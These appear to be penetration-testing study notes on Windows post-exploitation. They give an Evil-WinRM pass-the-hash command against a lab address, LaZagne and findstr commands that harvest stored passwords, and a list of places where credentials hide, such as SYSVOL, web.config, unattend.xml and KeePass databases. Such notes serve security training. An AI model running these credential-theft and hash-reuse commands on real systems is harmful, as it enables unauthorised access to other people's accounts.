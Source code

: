 ### Pass the Hash with Evil-WinRM

```
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


## Credential Hunting

Use Windows Search to search for password or username to find files or applications

[LaZagne](https://github.com/AlessandroZ/LaZagne) to automate searching

```
start lazagne.exe all
```

Using findstr
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

Here are some other places we should keep in mind when credential hunting:

    Passwords in Group Policy in the SYSVOL share
    Passwords in scripts in the SYSVOL share
    Password in scripts on IT shares
    Passwords in web.config files on dev machines and IT shares
    unattend.xml
    Passwords in the AD user or computer description fields
    KeePass databases --> pull hash, crack and get loads of access.
    Found on user systems and shares
    Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

